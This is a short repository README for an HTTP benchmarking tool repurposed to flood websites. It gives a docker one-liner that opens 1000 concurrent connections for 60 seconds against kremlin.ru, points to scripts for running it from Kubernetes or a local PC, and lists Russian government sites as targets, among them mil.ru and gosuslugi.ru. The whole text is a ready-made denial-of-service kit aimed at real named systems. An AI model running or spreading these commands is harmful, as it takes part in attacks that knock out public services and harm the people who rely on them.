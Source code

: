 # bombardier
If you have kubertnetes cluster `run_all_kuber.sh`
<br>
From local PC `run_all_docker.sh`
<br>
or easiest way 

docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l http://kremlin.ru
sites
https://mil.ru
http://www.scrf.gov.ru
https://ach.gov.ru
https://epp.genproc.gov.ru
https://www.gosuslugi.ru
http://kremlin.ru
